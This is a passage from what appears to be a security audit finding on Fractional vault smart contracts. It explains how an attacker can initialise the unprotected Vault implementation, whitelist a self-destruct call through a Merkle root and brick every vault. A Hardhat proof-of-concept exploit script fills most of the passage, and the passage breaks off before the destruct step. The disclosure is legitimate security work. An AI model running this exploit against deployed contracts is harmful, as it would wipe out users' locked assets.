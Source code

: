 This is a critical bug, since ALL assets held by ALL vaults will be lost. There's no way to transfer them out and there's no way to run any function on any vault.

Also, there's no way to fix the current deployed contracts (modules and registry), since they all depend on the factory vault, and there's no way to update them to a different factory. That means Fractional would have to deploy a new set of contracts after fixing the bug (this is a relatively small issue though).

### Proof of Concept

I created the PoC based on the `scripts/deploy.js` file, here's a stripped-down version of that:

```javascript
const { ethers } = require("hardhat");

const ZERO_ADDRESS = "0x0000000000000000000000000000000000000000";

async function main() {
    const [deployer, attacker] = await ethers.getSigners();

    // Get all contract factories
    const BaseVault = await ethers.getContractFactory("BaseVault");
    const Supply = await ethers.getContractFactory("Supply");
    const VaultRegistry = await ethers.getContractFactory("VaultRegistry");

    // Deploy contracts

    const registry = await VaultRegistry.deploy();
    await registry.deployed();

    const supply = await Supply.deploy(registry.address);
    await supply.deployed();

    // notice that the `factory` var in the original `deploy.js` file is a different factory than the registry's
    const registryVaultFactory = await ethers.getContractAt("VaultFactory", await registry.factory());

    const implVaultAddress = await registryVaultFactory.implementation();
    const vaultImpl = await ethers.getContractAt("Vault", implVaultAddress);

    const baseVault = await BaseVault.deploy(registry.address, supply.address);
    await baseVault.deployed();
    // proxy vault - the vault that's used by the user
    let proxyVault = await deployVault(baseVault, registry, attacker);

    const destructorFactory = await ethers.getContractFactory("Destructor");
    const destructor = await destructorFactory.deploy();


    let destructData = destructor.interface.encodeFunctionData("destruct", [attacker.address]);

    const abi = new ethers.utils.AbiCoder();
    const leafData = abi.encode(["address", "address", "bytes4"],
        [attacker.address, destructor.address, destructor.interface.getSighash("destruct")]);
    const leafHash = ethers.utils.keccak256(leafData);

    await vaultImpl.connect(attacker).init();

    await vaultImpl.connect(attacker).setMerkleRoot(leafHash);
    // we don't really need to do this ownership-transfer, because the contract is still usable till the end of the tx, but I'm doing it just in case
    await vaultImpl.connect(attacker).transferOwnership(ZERO_ADDRESS);

    // before: everything is fine
```